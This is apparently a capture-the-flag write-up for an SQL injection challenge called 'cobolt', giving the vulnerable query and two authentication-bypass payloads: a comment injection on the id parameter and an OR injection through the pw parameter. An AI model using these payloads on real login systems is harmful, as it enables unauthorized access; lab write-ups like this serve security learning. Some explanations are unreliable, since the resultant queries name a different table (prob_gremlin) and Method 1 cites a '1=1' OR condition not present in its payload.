 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 2
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a20d5977-f907-4582-8e92-88ff3b574002)

We are provided with the SQL query:

```sql
SELECT id FROM prob_cobolt WHERE id='{$_GET[id]}' AND pw=md5('{$_GET[pw]}')`
```

This time the application requires us to query for the id `admin`.

### Method 1
In order to make the result of this query `True`, we can provide the following URI:

```
?id=admin' -- -
```

The resultant query then becomes:

```sql
SELECT id FROM prob_gremlin WHERE id='admin' -- -' AND pw=md5('')

## Queried part
SELECT id FROM prob_gremlin WHERE id='admin'

## Commented part
AND pw=md5('')
```

Since 1=1 is always true, the result of the `OR` operation will always be `True`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/0e1140d5-c226-41e0-9aee-b022a2b9a28f)


### Method 2
We can also make teh statement true using the following URI:

```
?pw=') OR (id='admin
```

The resultant query will be:

```sql
SELECT id FROM prob_gremlin WHERE id='admin' AND pw=md5('') OR (id='admin')
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/5c5d2723-8a7e-4ac1-81c4-67d5084b7506)
